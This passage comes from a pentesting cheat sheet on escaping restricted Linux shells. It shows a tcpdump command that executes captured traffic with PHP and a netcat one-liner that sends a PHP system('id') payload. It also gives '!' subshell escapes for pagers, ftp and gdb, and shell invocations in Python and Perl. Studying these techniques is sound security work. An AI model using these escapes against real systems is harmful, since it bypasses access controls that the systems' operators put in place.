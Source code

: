 {{<details "Parameters"></details>}}

### TCPDump[^tcpdump]

Use tcpdump to capture network traffic
containing a malicious script.

```sh
tcpdump -n -G 1 -z /usr/bin/php -U -A udp port 8080
```
{{<details "Parameters"></details>}}

Send a network packet
with the PHP script.

```sh
echo "<?php system('id');?>" | nc -u 8080
```

### Others

Programs such as `more`,
`less`,
`man`,
`ftp`,
`gdb`
let you run subshells.
Type `!` followed by a command.
Try the following:

```sh
'! /bin/sh'
'!/bin/sh'
'!bash'
```

## Languages

Try invoking a shell through an available language.

### Python
```python
exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
```

### Perl
```perl
exec "/bin/sh";
```

```sh
perl -e 'exec "/bin/sh";'
```

### Ruby / irb


[^scp-pentestmonkey]: “Breaking out of Rbash Using Scp.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/blog/rbash-scp.
[^0-nixcraft]: “$0 - Linux Shell Scripting Tutorial - A Beginner’s Handbook.” NixCraft – Bash Shell Scripting Directory, https://bash.cyberciti.biz/guide/$0.
[^sans-restricted-shells]: Wright, Joshua. “SANS Penetration Testing | Escaping Restricted Linux Shells.” SANS Institute.
[^lynx-doc]: “Lynx Users Guide.” LYNX – The Text Web-Browser, https://lynx.invisible-island.net/lynx_help/Lynx_users_guide.html#LocalSource.
[^tcpdump]: “How to Break out of Restricted Shells with Tcpdump.” Insinuator.Net, https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/.